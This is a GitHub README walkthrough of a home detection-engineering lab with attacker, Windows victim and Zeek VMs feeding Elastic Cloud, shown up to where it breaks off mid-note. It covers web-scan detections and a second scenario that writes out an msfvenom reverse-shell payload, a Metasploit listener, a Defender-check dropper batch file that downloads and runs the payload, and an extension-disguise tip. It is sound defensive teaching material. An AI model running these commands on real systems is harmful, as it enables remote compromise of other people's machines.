


# Elastic Detection Lab


## Table of Contents
- [What is Detection Engineering?](https://github.com/chan2git/elastic-detection-lab#what-is-detection-engineering)
- [Project and Repo Overview](https://github.com/chan2git/elastic-detection-lab#project-and-repo-overview)
- [Getting Started](https://github.com/chan2git/elastic-detection-lab#getting-started)
    - [Setup Requirements](https://github.com/chan2git/elastic-detection-lab#setup-requirements)
    - [VM Network Settings](https://github.com/chan2git/elastic-detection-lab#vm-network-settings)
    - [Local Environment Network Schema](https://github.com/chan2git/elastic-detection-lab#local-environment-network-schema)
- [Virtual Machine Setup](https://github.com/chan2git/elastic-detection-lab#virtual-machine-setup)
    - [Oracle VirtualBox](https://github.com/chan2git/elastic-detection-lab#oracle-virtualbox)
    - [ParrotOS (Attacker)](https://github.com/chan2git/elastic-detection-lab#parrotos-attacker)
        - [Install and Network Configuration](https://github.com/chan2git/elastic-detection-lab#install-and-network-configuration)
        - [Updates and Prep](https://github.com/chan2git/elastic-detection-lab#updates-and-prep)
        - [IP Address](https://github.com/chan2git/elastic-detection-lab#ip-address)
    - [Windows 11 (Victim)](https://github.com/chan2git/elastic-detection-lab#windows-11-victim)
        - [Install and Network Configuration](https://github.com/chan2git/elastic-detection-lab#install-and-network-configuration-1)
        - [Windows Defender Settings](https://github.com/chan2git/elastic-detection-lab#windows-defender-settings)
        - [Installing and Configuring Sysmon](https://github.com/chan2git/elastic-detection-lab#installing-and-configuring-sysmon)
        - [Increasing Visability on PowerShell Script Execution](https://github.com/chan2git/elastic-detection-lab#increasing-visability-on-powershell-script-execution)
        - [Installing Python](https://github.com/chan2git/elastic-detection-lab#installing-python)
        - [IP Address](https://github.com/chan2git/elastic-detection-lab#ip-address-1)
    - [Ubuntu (Zeek/Network Traffic Analyzer)](https://github.com/chan2git/elastic-detection-lab#ubuntu-zeeknetwork-traffic-analyzer)
        - [Install and Network Configuration](https://github.com/chan2git/elastic-detection-lab#install-and-network-configuration-2)
        - [Zeek Install and Configuration](https://github.com/chan2git/elastic-detection-lab#zeek-install-and-configuration)
        - [IP Address](https://github.com/chan2git/elastic-detection-lab#ip-address-2)

- [SIEM Setup](https://github.com/chan2git/elastic-detection-lab#siem-setup)
    - [Elastic Cloud Overview](https://github.com/chan2git/elastic-detection-lab#elastic-cloud-overview)
    - [Elastic Defend Integration](https://github.com/chan2git/elastic-detection-lab#elastic-defend-integration)
    - [Disabling Elastic Defend Response](https://github.com/chan2git/elastic-detection-lab#disabling-elastic-defend-response)
    - [Zeek Integration](https://github.com/chan2git/elastic-detection-lab#zeek-integration)
    - [Windows Sysmon Integration](https://github.com/chan2git/elastic-detection-lab#windows-sysmon-integration)
- [Alert Scenario 1: Unusual Web Scanning](https://github.com/chan2git/elastic-detection-lab#alert-scenario-1-unusual-web-scanning)

    - [Overview](https://github.com/chan2git/elastic-detection-lab#overview)
    - [Conducting the Attack](https://github.com/chan2git/elastic-detection-lab#conducting-the-attack)
    - [Alert Context](https://github.com/chan2git/elastic-detection-lab#alert-context)
    - [Query-Based Detection #1](https://github.com/chan2git/elastic-detection-lab#query-based-detection-1)
    - [Threshold-Based Detection #1](https://github.com/chan2git/elastic-detection-lab#threshold-based-detection-1)
    - [Alert Confirmation](https://github.com/chan2git/elastic-detection-lab#alert-confirmation)

- [Alert Scenario 2: Batch Files and Malicious Payloads](https://github.com/chan2git/elastic-detection-lab#alert-scenario-2-batch-files-and-malicious-payloads)
    - [Overview](https://github.com/chan2git/elastic-detection-lab#overview-1)
    - [Conducting the Attack](https://github.com/chan2git/elastic-detection-lab#conducting-the-attack-1)
    - [Alert Context](https://github.com/chan2git/elastic-detection-lab#alert-context-1)
    - [Query-Based Detection #1](https://github.com/chan2git/elastic-detection-lab#query-based-detection-1-1)
    - [Query-Based Detection #2](https://github.com/chan2git/elastic-detection-lab#query-based-detection-2)
    - [Query-Based Detection #3](https://github.com/chan2git/elastic-detection-lab#query-based-detection-3)
    - [Query-Based Detection #4](https://github.com/chan2git/elastic-detection-lab#query-based-detection-4)
    - [Alert Confirmation](https://github.com/chan2git/elastic-detection-lab#alert-confirmation-1)

- [Alert Scenario 3: Registry Edits, Data Staging, and Exfiltration](https://github.com/chan2git/elastic-detection-lab#alert-confirmation-1)

    - [Overview](https://github.com/chan2git/elastic-detection-lab#overview-2)
    - [Conducting the Attack](https://github.com/chan2git/elastic-detection-lab#conducting-the-attack-2)
    - [Alert Context and Query-Based Detection #1](https://github.com/chan2git/elastic-detection-lab#alert-context-and-query-based-detection-1)
    - [Alert Context and Query-Based Detection #2](https://github.com/chan2git/elastic-detection-lab#alert-context-and-query-based-detection-2)
    - [Alert Context and Query-Based Detection #3](https://github.com/chan2git/elastic-detection-lab#alert-context-and-query-based-detection-3)
    - [Alert Context and Query-Based Detection #4](https://github.com/chan2git/elastic-detection-lab#alert-context-and-query-based-detection-4)
    - [Alert Confirmation](https://github.com/chan2git/elastic-detection-lab#alert-confirmation-2)

# What is Detection Engineering?
Detection Engineering can be broadly described as the art of collecting, monitoring, analyzing, and contextualizing data (e.g. endpoint/network logs) to craft a 'detection' that will identify and alert on a specific scenario, such as:
- Possible threats (malware, ransomware, unusual network activity, movement and persistence of a threat actor, etc.)
- Anomalies in the environment (uncommon network traffic patterns, unexpected user activity, rogue daemons/processes)
- Identifying the existence of specific Indicators of Compromise, or IOCs (unusual IP addresses, known malicious domains, suspicious user-agent strings, hash fingerprint of harmful files, etc.).

Detection Engineering is a dynamic and multi-faceted niche that draws from various security disciplines, such as Threat Intelligence, Incident Response, Malware Analysis, Network Security, and beyond. As a constantly evolving practice, Detection Engineering aims to stay ahead of known and emerging threats by ensuring robust and comprehensive log collection, leveraging the latest and most relevant threat intelligence, and safeguarding the integrity of the enterprise envionrment.


# Project and Repo Overview

This repository is my personal recap and walkthrough of a introductory hands-on course by TCM Security on Detection  (Detection Engineering for Beginners). The course and project focuses on staging a local network environment consisting of three virtual machines (VM) which play the role of Attacker, Target Victim, and Zeek/Network Traffic Analyzer, and the implementation of Elastic Cloud (trial version) as the SIEM of choice, which will be utilized to create and test detection alerts for various scenarios.

The current version of this repository highlights the local environment/VM/SIEM setup, installing agents to collect logs, and testing Elastic queries and alerts. A future pending update will cover TOML, uploading detections to Github, and programtically pushing alerts to Elastic Cloud. 

While this recap/walkthrough will briefly touch upon setting up the lab environment and settings, the primary focus is on using Elastic Cloud as a SIEM and creating detection alerts. This repo aims to showcase a hands-on demonstration of successfully completing the course while highlighting a comprehensive understanding of its contents and the essential/fundamental principles of detection engineering.

For additional and expanded guidance/support, please refer to each component's documentation.


# Getting Started


## Setup Requirements
The project requires the use of a hypervisor to house three VMs (Ubuntu, ParrotOS, Windows 11). While any hypervisor can work, the hypervisor of choice within this project will be Oracle VM VirtualBox.

A SIEM will also need to be implemented which will collect logs from the Ubuntu and Windows 11 hosts. There are several SIEMs to choose from and could be incorporated. However for the scope of this project, the SIEM of choice will be Elastic Cloud (trial version).

The Linux VM is needed to install and run Zeek, which will collect logs on HTTP/network traffic within our local environment network. While any Linux distro should work, the distro of choice for this project is Ubuntu.

The Attacker VM is needed to conduct interactions with the Target Victim VM, such as port scanning, sending over malicious files, remote PowerShell script execution, and establishing a reverse remote shell connection. These activities aim to trigger and validate our alert detections. The Attacker VM of choice for this project is ParrotOS - alternatively Kali Linux can be used as the Attacker VM. More importantly, the tools needed for the Attacker VM is Nmap, OWASP ZAP, Nikto, and Metasploit.

The Target Victim VM is needed to be on the receiving end of the Attacker VM's activities. The Target Victim VM will have Elastic agents installed which will help to forward logs to our instance of Elastic Cloud. The choice of the Target Victim VM will be Windows 11. Additional requirements will include the installation of Windows Sysmon as an additional log source and configurations to improve PowerShell script execution visability.


## VM Network Settings
For the VMs to be able to communicate to each other within a safe and contained local network environment, an additional network adapter needs to be added in VirtualBox's network settings. ParrotOS and Windows 11 will need to have Adapter 2 attached to "Host-only Adapter" to "VirtualBox Host-Only Ethernet Adapter", while Zeek will need to have Adapter 2 

Please see the respective host setup under Lab Setup for additional clarity and instructions.


## Local Environment Network Schema

The Host OS (Windows) will run VirtualBox as the hypervisor of choice. Each VM will have a second adapter enabled to host-only adapter, which will form an internal local network (192.168.56.0/24). Notably, Ubuntu VM's network interface mode will be set to promiscuous mode, which will allow Zeek to pick up on the local network traffic.

Ubuntu and Windows 11 VMs will have Elastic agents installed to collect and forward Zeek HTTP and Endpoint/Sysmon logs respectively to Elastic. ParrotOS will be the VM conducting the attacks.




# Virtual Machine Setup

## Oracle VirtualBox
Oracle VirtualBox will be the hypervisor of choice. You can download Oracle VirtualBox at https://www.virtualbox.org/wiki/Downloads.

Please see documentation if needed at https://www.virtualbox.org/wiki/Documentation

## ParrotOS (Attacker)

### Install and Network Configuration

The Security Edition of ParrotOS can be downloaded at https://parrotsec.org/download/. See Download button and select the virtualbox (amd64) option. After the .ova file is finished downloading, you can open the file directly to open it in VirtualBox and complete the VM installation.

Once ParrotOS is fully imported as a VM inside of VirtualBox, change to network settings to enable Adapter 2 attached to "Host-only Adapter" to "Virtual Box Host-Only Ethernet Adapter". This will allow ParrotOS to communicate and interact with other VMs with the same network configurations in a safe and contained local network environment.


### Updates and Prep

Ensure that your OS is fully updated and has the tools needed by running the below commands. Sudo password should be `parrot`.

```
sudo apt-get update
sudo apt-get upgrade
```

```
sudo apt install vsftpd
```

```
sudo apt install ftpd
```


### IP Address

We'll need to know what the IP address is for our ParrotOS host. To find it, open a terminal and run the `ip addr` command. The IP address for the ParrotOS host can be found next to "inet" under "3: enp0s8". For my particular VM, it is `192.168.56.104`.


## Windows 11 (Victim)

### Install and Network Configuration

The file for Windows 11 VM install can be found at https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/. 

Navigate to the above link and select the VirtualBox option to download a .zip file. Extract the .ova file within and open it (it should open directly in VirtualBox) to begin the VM installation.

Once Windows 11 is fully imported as a VM inside of VirtualBox, change to network settings to enable Adapter 2 attached to "Host-only Adapter" to "Virtual Box Host-Only Ethernet Adapter". This will allow ParrotOS to communicate and interact with other VMs with the same network configurations in a safe and contained local network environment.


### Windows Defender Settings

To ensure that we're able to fully test malicious activity against our Windows 11 host, we'll need to configure (or 'misconfigure') some settings. The below will need to be completed in order to allow the full execution of testing activities and subsuqent triggering of alerts.

Virus and Threat Protection Settings
- Tamper Protection: Off

Local Group Policy Editor > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
- Turn off Microsoft Defender Antivirus: Enabled


Local Group Policy Editor > Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus > Real-time Protection
- Turn off real-time protection: Enabled
- Turn on behavioral monitoring: Enabled


### Installing and Configuring Sysmon

While the Elastic and Zeek agents will cover a lot of the log data generated from the host VMs, there will be instances where some crucial information isn't captured or details may be lacking. For our Windows 11 VM, we can install Sysmon which will act as an additional data log source capturing details on process creations, network connections, and PowerShell commands.

You can download Sysmon from https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon.

Additionally, Sysmon will require a configuration file to work. A premade configuration file can be downloaded from https://github.com/SwiftOnSecurity/sysmon-config. Please refer to this repository for additional details and guidance on setting up and configuring Sysmon on the Windows 11 VM.


### Increasing Visability on PowerShell Script Execution
We can enable additional visability on details for PowerShell scripts by configuring a few settings. If we navigate to Local Group Policy Editor > Administrative Template > Windows Components > Windows PowerShell and complete the following changes:

Turn on Module Logging: 
- Enabled
- Module Names Value: *

Turn on PowerShell Script Block Logging: 
- Enabled

Turn on Script Execution: 
- Enabled
- Execution Policy: Allow all scripts

Turn on PowerShell Transcription: Enabled


### Installing Python
At some point, we'll be spinning up a simple Python web server on our Windows 11 VM, which will require Python to be installed. Open a terminal and enter `python` and follow the installation prompt from the Windows store.


### IP Address

We'll need to know what the IP address is for our Windows 11 host. To find it, open a terminal and run the `ipconfig /all` command. The IP address for the Windows 11 host can be found next to "IPv4 Address". For my particular VM, it is `192.168.56.105`.


## Ubuntu (Zeek/Network Traffic Analyzer)

### Install and Network Configuration

The installation of Ubuntu VM is different from the others in that we are not importing a .ova file. Instead we'll need to download a Ubuntu .iso file and manually set it up within VirtualBox. The .iso file can be downloaded at https://ubuntu.com/download/desktop.

Navigate to the above link and select download under Ubuntu LTS (Long Term Support). Then you'll follow the typical steps of creating a new VM within VirtualBox (Create Virtual Machine) and select the downloaded Ubuntu .iso file as the specified ISO Image. For this install, you will also specify your own Ubuntu username and password. Once the new VM setup is complete, it may auto-run. Finish the typical OS installation and you may power off the VM to configure and apply the local network settings.

Within the VirtualBox network settings for the Ubuntu VM, enable Adapter 2 and attach it to "Host-only Adapter" with the name "VirtualBox Host-Only Ethernet Adapter". Additionally, under the Advanced configurations, change the selected choice to "Allow All". This setting is critical in installing Zeek and allowing it to listen to all network traffic within the local network environment. 


### Zeek Install and Configuration

Documentation for installing and configuring Zeek can be found at https://docs.zeek.org/en/master/install.html.

Ensure that you install `curl` on your Ubuntu VM by running the command `sudo apt-install curl` before running any install commands from the Zeek documentation or you may encounter an install error.

While Zeek is a critical component of the overall project, the specific details on configuration is outside the scope of this repository which is to highlight the general setup of the local network environment and lab, while primarily focusing more on Elastic Cloud and detection engineering. 

Once Zeek has been fully setup and configured, it will need to be deployed in order to actively listen and collect traffic data.

Please refer to Zeek documentation on how to fully setup, configure, and deploy Zeek.


### IP Address

We'll need to know what the IP address is for our Ubuntu/Zeek host. To find it, open a terminal and run the `ip addr` command. The IP address for the Ubuntu/Zeek host can be found next to "inet" under "3: enp0s8". For my particular VM, it is `192.168.56.103`.


# SIEM Setup

## Elastic Cloud Overview

Elastic Cloud is a tool stack that includes several components and functionality related to log consonlidation, security threat detection and response, and visualizing analytics. Most importantly, we will be utiizing Elastic Cloud as a SIEM to query through logs and create detection alerts.

This project utilizes a free 14-day trial period that includes a one time 1 week extension if needed. Sign up at https://www.elastic.co/ and select "Start Free Trial". Follow the steps to sign up and name your first deployment (e.g. "elastic-detection-lab).


## Elastic Defend Integration

In order to collect logs from our Windows 11 VM, we'll need to set up Elastic Defend and install the appropriate agent. Visit the Integrations page and search for Elastic Defend. Select Elastic Defend and click on "Add Elastic Defend" followed by "Install Elastic Agent on your host"


On the next page, you'll be shown scripts for various OS to install Elastic Defend agent on a host machine. Copy and paste the script provided for Windows and execute in a admin PowerShell shell terminal. Once the script is ran, the agent should be installed and you'll advance to the next pages where it'll confirm the agent installed, integration added, and provide a preview of incoming data.


##  Disabling Elastic Defend Response

Similar with disabling Windows Defender Antivirus on our Windows 11 VM, we'll also disable Elastic Defend's threat response. Within Elastic Defend's Integration Policies, we can edit the integration to make the below changes:

Type: Malware
- Malware protections: Enabled
- Protection level: Detect

Type: Ransomware
- Ransomware protections: Enabled
- Protection level: Detect

Type: Memory Threat
- Memory threat protections: Enabled
- Protection level: Detect

Type: Malicious Behavior
- Malicious behavior protections: Enabled
- Protection level: Detect

Save and deploy the changes.


## Zeek Integration

In order to centralize and forward Zeek logs from our Ubuntu to Elastic Cloud, we'll need to set up an Elastic agent to collect the Zeek logs. Visit the Integrations page and search for Zeek. Select Zeek. Complete the instructions regarding appending json-logs policy to your local.zeek file by adding in the line `@load policy/tuning/json-logs.zeek`


Then click on "Add Zeek". On the next page, provide a name to the "New agent policy name" field (e.g. zeek policy) and click on "Save and continue", followed by "Add Elastic Agent to your hosts"


On the next page, you'll be shown scripts for various OS to install an Elastic agent for Zeek on a host machine. Copy and paste the script provided for Linux and execute in a terminal. Once the script is ran, the agent should be installed and youll advance to the next pages where it'll confir


On the next page, you'll be shown scripts for various OS to install Elastic Defend agent on a host machine. Copy and paste the script provided for Linux and execute in a admin PowerShell shell terminal. Once the script is ran, the agent should be installed and you'll see  a confirmation of agent enrollment and incocoming data.


## Windows Sysmon Integration

Similar to the Elastic Defend/Zeek integrations, we'll search for and add the Windows integration. Leave the settings as is and add the integration to an existing host and select the initial Elastic Agent policy (e.g. "My first agent policy"). Save and continue and confirm the deployment.


# Alert Scenario 1: Unusual Web Scanning
## Overview
ParrotOS will conduct web scanning (Nmap, Nikto, ZAP) against a web server hosted on the Windows 11 VM. Zeek will capture the activity and forward the log data to Elastic Cloud.

An alert for detection will be created based on query and threshold.


## Conducting the Attack

The Windows 11 VM will need to spin up a web server. From a PowerShell terminal enter the command `python -m http.server`. We'll see that the Windows 11 VM is hosting a simple HTTP server on 192.168.56.105:8000.


From the ParrotOS VM, we'll begin our web scanning with the first tool, Nmap. Within a terminal, run the command `sudo nmap -sV -p 8000 192.168.56.139`.


After the nmap scan is completed, we'll start another scan with the second tool, Nikto. From a terminal, run the command `sudo nikto -h 192.168.56.105:8000`.


Finally, we'll conduct web scanning from our third tool, OWASP ZAP. Run ZAP from Applications > Pentesting > Most Used > OWASP ZAP. Enter `192.168.56.105:8000` in the "URL to attack" field and click Attack. Once you generate a little over 1000 requests, you click Stop as that should be sufficent.


## Alert Context
We know that web scanning activity will be captured by Zeek (`zeek:http`), so we can run a general query below and see what returns. Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of web scanning. Some questions that come to mind are
- Where is the web scanning coming from?
- Who is being targeted by the web scanning activity?
- What is the HTTP method being used?
- What is the path the web scanner is crawling through?
- Can we see if the web scanner is advertising itself?


The fields `source.ip`, `source.port`, `destination.ip`, `destination.port`, `event.action`, `url.path`, and `user_agent.original` can be toggled to help answer these questions and provide context.

```
event.dataset : zeek.http
```


A crucial piece of information that can help us craft a detection is knowing if the web scanner is advertising itself in the `user_agent.original` field. We can view Field Statistics and see what the current top values are. Currently, we can see Firefox and Nikto.


But what about "Other"? Let's modify our query to the one below to exclude Nikto and see if anything interesting comes back

```
event.dataset : zeek.http and NOT user_agent.original: *Nikto*
```


With these two queries and observing the field statistics on interesting fields, we now know that Nmap and Nikto advertise themselves in the `user_agent.original` field, which can be crucial information to craft a query-based detection.


## Query-Based Detection #1
Based on the alert context we were able to figure out, we know that Nmap and Nikto advertise themselves in the `user_agent.original` field. We can build a query that hones in on this information to build a query-based detection alert. The below query can be used to specifically hone in on Nmap and Nikto web scanning activity.

```
event.dataset : zeek.http and user_agent.original: *Nikto* or user_agent.original: *Nmap*
```

To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.


Define Rule
- Custom Query: `event.dataset : zeek.http and user_agent.original: *Nikto* or user_agent.original: *Nmap*`
- Suppress alerts by: `destination.ip`
- Suppress per time period: 5 Minutes


>[!NOTE]
> The reason why alert suppression is needed is to avoid creating overwhelming alerts for essentially one large event. A web scanner may create thousands of connections for one specific destination IP address within a short period of time. Based on that, we can suppress by `destination.ip` and allow new alerts to be generated if a different web server is also being scanned. Otherwise, if the web scanning activity is only targeting one specific `destination.ip` witin the specified time window, we can treat it as one single large event instead of several small events.


About Rule
- Name: Web Scanning Activity - Nmap/Nikto
- Description: Detects Nmap and Nikto user agent strings
- Severity: Low
- Risk Score: 21

Schedule Rule
- Runs every: 5 Minutes
- Additional look-back time: 5 Minutes


## Threshold-Based Detection #1
We know that there was a third web scanner used that currently isn't being accounted for. The value for the `user_agent.original` references Gecko/Mozilla, which seems to be Mozilla Firefox and may cause a lot of false positives if we detected on that. Instead, we can create a generic web scanning alert that detects on the excessive HTTP traffic behavior of a web scanner.


To build a threshold-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Threshold. In the Custom Query field, we'll provide `event.dataset : zeek.http`. In the Group By field, we'll select `source.ip` and `destination.ip` and set the Threshold limit to 1000. Essentially, this alert is being triggered when there is an excessive amount of results being generated by the query focusing on `source.ip` and `destination.ip`. The following details and settings can be applied to the rule:

About Rule
- Name: Excessive Web Traffic
- Description: Triggers when more than 1000 queries to a web server has been observed within a 5 minute window
- Severity: Medium
- Risk Score: 50
- Advanced Settings 
    - MITRE ATT&CK Threats
        - Tactic: Discovery (TA0007)
         - Technique: Network Service Discovery (T1046)

    - Investigation Guide: Investigate the traffic between the source/destination IP address


Schedule Rule
- Runs every: 5m
- Additional look-back time: 5m


## Alert Confirmation
After repeating our attack, we can see that alerts have been triggered within our Security Alerts dashboard.


Here is the expanded alert details for our query-based Web Scanning Activity - Nmap/Nikto alert. The highlighted fields sections consists of fields taken from our query. Additionally, notice that under the Correlations section, there was over 6000 suppressed alerts for this one large event, or "source event". Imagine if we did not add alert suppression - we would have received over 6000 alerts for essentially the same event. 

While each individual alert within the 6000 alerts may have had minor differences such as the web scanner crawling through a different url directory path, it may not have provided any additional and useful context, and simply overwhelm the SOC. If we are receiving this alert based on Nmap/Nikto, then we already know that our directories are being crawled through. If there was a need to alert on a specific web directory being scanned, then a separate alert should be created with a query that focuses in on that specific value within the `url.path` field.


Here is the expanded alert details for our threshold-based Excessive Web Traffic alert. Notice that within the Highlighted Fields section, there were 6309 events that were consdiered to be part of the alert's trigger - yet we didn't have over 6000 alerts. That is due to grouping the `source.ip` and `destination.ip` together. This threshold alert looks for excessive web traffic/web scanning from one particular source IP address against one specific destination IP address. For simple web scanning, this threshold should cover the scenario without overwhelming the SOC with thousands of alerts for essentially the same activity.

A good afterthought is how would we want to alert on a potential DDoS attack, where there are several IP addresses trying to overwhelm a single web server/destination IP address without accidently overwhelming the SOC with a lot of alerts?


# Alert Scenario 2: Batch Files and Malicious Payloads

## Overview
A dropper file located on the Windows 11 VM will contain a script to determine if Microsoft Defender is enabled or disabled. If Microsoft Defender is disabled, then the dropper file will then download a malicious script to execute a remote reverse shell to connect to the ParrotOS VM.

Detections will be created to alert on downloading batch files on an unusual port, PowerShell scripts being launched from a batch file, batch files downloaded by PowerShell using `Invoke-WebRequest` command, and Command Line/PowerShell commands matching strings potentially found in a malicious Metasploit payload.

The dropper file contains the below PowerShell script. In a nutshell, it runs the `Get-MPComputerStatus` command which returns a list of properties and their values (True, False, etc). The script then checks to see if the property `RealTimeProtectionEnabled` (Windows Defender) is equal to false. If the property value is equal to false, then execute the designated malicious payload script.

```
@ECHO OFF
powershell -Command "& {if ((Get-MPComputerStatus).RealTimeProtectionEnabled -eq $false) {<MALICIOUS PAYLOAD SCRIPT>}}"
```


## Conducting the Attack

From the ParrotOS VM terminal, run the below command to generate a windows reverse PowerShell script payload into a file called "shell.bat". The listening host is the ParrotOS VM (192.168.56.104) and the listening port can be assigned an arbitrary port number (e.g. 8443).

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.56.104 lport=8443 > shell.bat
```


>[!NOTE]
> To obfuscate the file extension to make it appear like it has a .txt extension, run the command `mv shell.bat shell.txt` after creating shell.bat. It may be interesting to perform this attack with shell.bat and shell.txt and examine how Elastic/Zeek detects it.


Next, we'll need to open Metasploit and prep the reverse shell by running the below commands.
```
sudo msfconsole
```

```
use exploit/multi/handler
```
```
options
```


Set the LHOST to 192.168.56.104 and LPORT to 8443 with the commands below.
```
set lhost 192.168.56.104
```

```
set lport 8443
```

Start the reverse TCP handler/reverse shell (listening) with the command below
```
run
```


From the Windows 11 VM and scope of this project/course, we will manually create and "place" the dropper file on the Desktop. Using a code editor (Visual Studio Code, Notepad++, etc.) save the below as a batch file (e.g. "testing.bat") and run.


```
@ECHO OFF
powershell -Command "& {if ((Get-MPComputerStatus).RealTimeProtectionEnabled -eq $false) {Invoke-WebRequest -URI http://192.168.56.104:8000/shell.txt -OutFile c:\Windows\temp\shell.bat; c:\Windows\temp\shell.bat}}"
```


## Alert Context
We know that logs regarding HTTP traffic and activities (such as file sharing or downloads) can be captured with Zeek (`zeek.http`). We can run a general query below and see what returns. Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context of file sharing/download/extension. Some questions that come to mind are
- What is the HTTP method that is being used?
- What is the HTTP response code?
- What is the URL path associated with the file download?
- What is the IP address and port that is hosting the file?


The fields `event.action`, `http.response.code`, `url.path`, `url.extension`, `destination.ip`, and `destination.port` can be toggled to help answer these questions and provide context.


```
event.dataset: zeek.http
```


There are several key critical pieces of information that we can observed. We know that file downloads will have a `event.action` of GET and a successful `http.response.code` of 200. We also know that batch files may be unusual, so we should be on the look out for `url.extensions` that have the values bat - in case of extension obfuscation, we should also be on the lookout for potential txt files. Most importantly, we need to understand if we are expecting any file transfers/downloads involving the values for `destination.ip` and `destination.port`.

Files shared internally (even batch files) could be a normal activity, especially amongst the IT team. This is why it's important for Detection Engineers to understand their internal enterprise environment. One way to approach this detection contextually is to whitelist specific IP addresses that are expected and authorized to transmit files. We could also premptively black-list IP addresses known to utilize dropper file/sharing tactics in advance, in addition to alerting on any IP addresses we are not expecting to transmit files.


We also know that logs pertaining to PowerShell execution should be captured by Sysmon (`windows.sysmon_operational`). We can run a general query below and see if anything interesting is returned. Additionally, we would want to toggle fields with values that may be interesting to us and can provide the relevant context related to PowerShell script execution. Some questions that come to mind are
- What is the parent process name?
- What commands/scripts did the parent process execute?
- What commands/scripts did the child process execute?
- On which host machine is the unusual PowerShell execution osberved on?

The fields `process.parent.name`, `process.parent.command_line`, `process.command_line`, and `host.hostname` can be toggled to help answer these questions and provide context.

```
event.dataset: windows.sysmon_operational
```



The relevant results pertaining to our Alert Scenario 2 are checked. Following the chain fo events, we can see that there was a parent process `cmd.exe` with the command line of `\..\..\testing.bat` (our dropper file). This then runs the PowerShell script within our dropper file which checks if Windows Defender is disabled and pulls the designated file from our ParrotOS VM, saves t as `shell.bat`. `shell.bat` is then executed with a parent process of `powershell.exe` which contains the PowerShell script to execute reverse shell payload.

Based on this information, how could we approach the detecton? While it's possible that perhaps the dropper file `testing.bat` is the name of malicious file observed floating out in the wild or has been previously observed within an incident, detecting on this specific name could cause false negative situations as a future attack could easily use the same dropper file with a different name.

Instead of taking a specific and explicit approach, we could try a more generalized direction based on the patterns we're seeing with our log results, such as the observation of a .bat file launching PowerShell. This approach would capture events regardless of file names and is more all emcompassing. 

>[!NOTE]  
> Detection Engineers need a thorough understanding of their internal enterprise environment. Employing a broad detection strategy to alert on PowerShell scripts initiated by batch files may result in numerous false positives, particularly since IT staff may commonly utilize batch files. While this project/course will accept a generalized approach for Alert Scenario 2, it is essential to carefully consider the potential impact of this strategy within a fully operational enterprise environment.

Additionally, we can also craft a third detection focusing on key strings found in the malicious payload script that executes the reverse shell. While there are arbitrary information within the script, such as the listening IP address/port, we can craft the detection using non-arbitary strings such as `$c=New-Object system.net.sockets.tcpclient`.


## Query-Based Detection #1
Using the context of batch files being transmitted through unusual ports (e.g. not port 80), we can build a detection that hones in on this with the below query.

```
event.dataset: "zeek.http" and url.extension: bat and not destination.port: 80
```

To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: event.dataset : event.dataset: "zeek.http" and url.extension: bat and not destination.port: 80

- Suppress alerts by: source.ip

- Suppress per time period: 5 Minutes

>[!NOTE]  
> The reason why alert suppression is needed is to avoid creating multiple alerts for essntially one general event within a specific time frame. By suppressing alerts by `source.ip` within 5 minutes, we can get alerted without receiving multiple alerts. If a different source IP address is involved, then a separate alert will be triggered.


About Rule
- Name: Batch Files Observed in HTTP Traffic on Unusual Port

- Description: Zeek HTTP data identifying .bat file extensions on unexpected destination port (NOT Port 80)

- Severity: High

- Risk Score: 75

- Advanced Settings
    - MITRE ATT&CK Threats
        - Tactic: Execution (TA0002)
        - Technique: Command and Scripting interpreter (T1059)
        - Subtechnique: Windows Command Shell (T1059.003)

Schedule Rule

- Runs every: 5 Minutes

- Additional look-back time: 5 Minutes


## Query-Based Detection #2

Using the context of a batch file executing a PowerShell command, we can build a detection that hones in on this event with the query below.

```
event.dataset: "windows.sysmon_operational" and process.command_line: powershell* and process.parent.command_line: *bat* and process.parent.name: "cmd.exe"
```


To build a query-based detection alert, navigate to Security > Rules > Detection Rules > Create new rule > Custom query and paste in the query we created above into the Custom query field. The following details and settings below can be applied to the rule.

Define Rule

- Custom Query: `event.dataset: "windows.sysmon_operational" and process.command_line: powershell* and process.parent.command_line: *bat* and process.parent.name: "cmd.exe"`

- Suppress alerts by: `host.hostname`

- Suppress per time period: 5 Minutes

>[!NOTE]  
